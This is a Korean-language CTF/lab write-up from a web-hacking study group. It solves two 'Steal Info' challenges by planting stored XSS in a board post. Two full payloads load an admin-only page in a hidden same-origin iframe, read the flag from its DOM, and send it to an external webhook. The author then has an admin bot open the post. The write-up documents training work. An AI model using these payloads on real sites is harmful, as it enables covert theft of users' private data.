 # 웹 해킹 스터디 11주차: Stored XSS 기반 Same-Origin DOM 데이터 탈취

## 개요

- 이 문서는 Stored XSS 취약점과 Same-Origin 정책을 악용한 DOM 정보 탈취 시나리오를 실습한 기록입니다.
- 주어진 웹 애플리케이션에서 민감 정보가 포함된 페이지를 `iframe`으로 불러오고, JavaScript를 이용해 내부 DOM에 접근하여 데이터를 추출한 뒤 외부 서버로 전송하는 방식으로 공격을 수행하였습니다.
- 공격자는 게시판 등의 기능을 활용해 악성 HTML 문서를 업로드하고, 피해 사용자가 해당 게시글을 열도록 유도함으로써, 사용자의 인지 없이 자동으로 DOM 내 민감 정보가 유출되도록 구성하였습니다.
- 본 실습의 핵심은 공격 스크립트 삽입, 동일 출처 기반의 iframe DOM 접근, 외부 전송 방식 등 실제 공격 흐름을 구성하여, XSS 취약점이 **단순 스크립트 실행을 넘어 정보 유출로도 직결될 수 있음을 재현**하는 데 있습니다.

---

## CTF 문제 풀이

### Steal Info

![취약점 있는 곳](./screenshots/steal1_post.png)

- 게시글 작성 기능 중 **내용(body)** 입력란에 XSS 취약점이 존재함을 확인하였다.

![타겟 할 웹사이트](./screenshots/target_html.png)

- 누구나 접근 가능한 페이지(mypage.html)와 동일한 구조의 관리자 페이지 내부 내 정보 영역에 플래그가 숨겨져 있으나, 직접 접근 시 관리자 권한이 없어 차단되는 구조이다.

- 확보한 정보를 활용해, 비인가 사용자가 관리자 페이지 내부 정보를 탈취하는 시나리오를 구성하고 공격을 수행할 것 이다.

![플래그가 포함된 DOM 구조](./screenshots/target_card-text.png)

- 위의 `<p class="card-text">` 태그를 이용해, DOM 기반 정보 추출을 시도할 것 이다.

**다시 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac/secret.php" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementsByClassName('card-text')[1].textContent;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal1_payload.png)

- 이후 **악성 게시물의 URL을 복사하여 관리자 봇에게 전달**함으로써, 해당 페이지에 접근하도록 유도했다.

![관리자에게 URL 전송](./screenshots/steal1_access_admin.png)

- URL이 정상적으로 전달되었으며, 이후 Webhook 로그를 통해 DOM 정보가 외부로 유출된 것을 확인할 수 있다.

![플래그 획득](./screenshots/steal1_flag.png)

이와 같은 방식으로 **관리자 권한 없이 플래그를 탈취하는 데 성공**하였다.

---

### Steal Info 2

![타겟 할 곳](./screenshots/steal2_burp_suite.png)

- 위 사진의 `<input id="userInfo">` 요소는 관리자 권한으로 접근할 경우, 해당 필드의 `placeholder` 속성에 플래그가 포함되어 있다.

**이 정보를 토대로 게시글 작성 으로 돌아가 다음과 같은 페이로드를 입력하였다:**
```html
<iframe src="http://ctf.segfaulthub.com:4343/scriptPrac2/mypage.php?user=123" style="display:none" id="id"></iframe>

<script>
document.addEventListener("DOMContentLoaded", () => {
const id = document.getElementById("id");
const text = id.contentDocument.getElementById("userInfo").placeholder;
new Image().src = "https://webhook.site/741989d6-cb27-411b-aa44-a01355948028?c=" + text;
})
</script>
```

![페이로드](./screenshots/steal2_payload.png)

- `iframe`에 `style="display:none"` 속성을 설정하여, **외부 페이지의 DOM 접근과 form 전송은 가능하게 유지하면서도 UI 요소가 노출되지 않도록 구성**했다. 이를 통해 관리자가 공격 페이지에 접근하더라도 화면 상으로는 아무런 변화가 없어 의심을 피할 수 있다.

사용자가 직접 게시물 클릭 시:

![게시물 클릭](./screenshots/steal2_access.png)

- 게시글을 클릭하면, 삽입된 스크립트를 통해 현재 사용자의 `userInfo` 요소에 설정된 **placeholder 값**인 `"Nothing Here..."`가 Webhook으로 전송되는 것을 확인하였다.

- 이걸 이용하여 **URL을 복사하여 관리자 봇에게 전달**할 것 이다.

![관리자에게 URL 전송](./screenshots/steal2_access_admin.png)

- 관리자 봇에게 XSS가 삽입된 URL을 전달하여 요청을 유도한 후

**결과:**

![플래그 획득](./screenshots/steal2_flag.png)

결과적으로, 관리자 권한 없이 플래그를 획득하는 데 성공했다.



